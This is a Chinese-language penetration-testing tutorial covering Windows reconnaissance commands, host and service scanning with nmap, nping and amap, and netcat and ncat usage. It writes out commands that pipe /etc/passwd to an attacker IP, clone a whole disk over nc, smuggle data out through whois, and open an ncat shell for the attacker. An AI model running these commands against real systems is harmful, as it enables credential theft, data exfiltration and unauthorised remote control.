 # 渗透测试基础05

# 信息搜集工具的使用（windows本地信息搜集、远程信息搜集-利用网站、活跃主机识别-利用工具、kali的nc加密传输、nc 远程克隆备份linux硬盘取证、ncat、域环境）

bitvise远程连接kali

## 信息搜集：

### windows本地信息搜集：

```
whoami   #查看自己身份
whoami /all   #获取当前域的信息
ipconfig /all     #查看详细ip信息

arp -a     #查看arp表

systeminfo    #查看操作系统信息

echo %PROCESSOR_ARCHITECTURE%    #查看cpu型号

wmic product get name,version  #查看安装软件和版本信息

wmic qfe get Caption,Description,HotFixID,InstalledOn  #查看补丁列表

net user  #查看本地用户

net session  #显示本地和远程的会话

wmic process list brief   #查看进程

net view   #查看内网的共享

```



### 远程信息搜集：

网站:
http://seo.chinaz.com/

http://whois.chinaz.com/



**活跃主机识别**：

```
nmap -sP [网段]   ##活跃主机识别

nping -tcp -p 445 -data [十六进制数据，例如0xab] [目标ip]    #对目标ip的445端口，以tcp的方式发送一串十六进制数据
（可以通过以上方法模拟常见网络攻击，可以测试对方的防御效果）

#zenmap就是nmap的图形界面版本

nmap -sV [目标ip]   #服务指纹识别

amap -bq [目标ip] [端口]    #服务枚举

nc -nvz [ip] 1-65535    #使用windows的nc进行扫描
```



## kali的nc加密传输

2 目标：

```
cat /etc/passwd | base64 | nc -nv [黑客ip] 3333 -q 1

#/etc/passwd敏感目录
#/etc/shadow敏感目录
#把查看到的结果进行base64加密，将结果通过nc连接黑客的3333端口，传完之后立马退出
```

1 黑客：

```
nc -l -p 3333 > kali.txt   #监听3333端口，并将监听到的东西存放到kali.txt里
```



**传输文件**
2 目标：

```
nc -nv [黑客ip] 3333 < [要传的文件] -q 1
```

1 黑客:

```
nc -lp 3333 > xx.txt
```



## nc 远程克隆备份linux硬盘：【取证】

黑客（最好也是linux系统）：

```
nc -lp 3333 | dd of=/dev/sda
#o表示on方向，输出
```

目标：

```
dd if=/dev/sda | nc -nv [黑客ip] 3333 -q 1
#i表示in方向，输入
```



## nc 其他用法

两台linux系统：

适用于传输小的文件，whois也可以用于payload反弹 

目标 （没有nc，需要用合法方法传输）

````
whois -h [黑客ip] -p 4444 `cat /etc/passwd | base64` 
````

黑客自己 

```
nc -l -v -p 4444 | sed "s/ //g" | base64 -d 
#自己解码
```



**注意**：nc传输内容都是明文的

所以需要**ncat**



## nc加密版ncat

**ncat**大多数情况在**nmap**的工具包里

`--help`查看可用命令



目标(linux。如果是windows系统，bash改成cmd)：

```
ncat -c bash --allow [黑客ip] -vnl 3333 --ssl  
#只允许黑客的ip使用ssl加密去控制它
```

黑客：

```
ncat -nv [目标ip] 3333 --ssl 
```





## 域环境：

AD（active directiory）活动目录服务器

https://www.cnblogs.com/cnjavahome/p/9029665.html



exchange服务器




